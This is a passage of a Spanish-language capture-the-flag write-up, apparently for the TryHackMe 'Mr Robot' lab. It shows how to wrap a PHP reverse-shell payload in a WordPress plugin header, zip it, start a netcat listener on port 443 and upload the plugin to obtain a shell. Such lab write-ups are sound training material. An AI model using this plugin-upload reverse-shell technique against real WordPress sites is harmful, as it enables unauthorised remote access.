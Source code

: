 Podríamos emplear el payload mencionado en la anterior sección tal cual, pero no cumplirá con el formato de un plugin de WordPress.. tendremos que hacer de nuestro payload un plugin válido, para ello comenzaremos por añadir la siguiente cabecera a nuestro payload.

```
/*

Plugin Name:  Reverse Shell

Plugin URI: http://mrrobot.com

Description: Shell

Version: 1.0

Author: Shockz

Author URI: http://mrrobot.com

Text Domain: Shell

Domain Path: /languages

*/
```

Ahora necesitamos empaquetarlo todo en un zip.

```bash
sudo zip reverse.zip php-reverse-shell.php
```

Iniciaremos un listener, ya que esperamos una conexión por parte de nuestra víctima.

```bash
nc -lvp 443
```

Por último subiremos nuestro payload ```reverse.zip```

<a href="/assets/images/thm-writeup-mr-robot/11.png"><img src="/assets/images/thm-writeup-mr-robot/11.png" alt="mr robot thm writeup"></a>
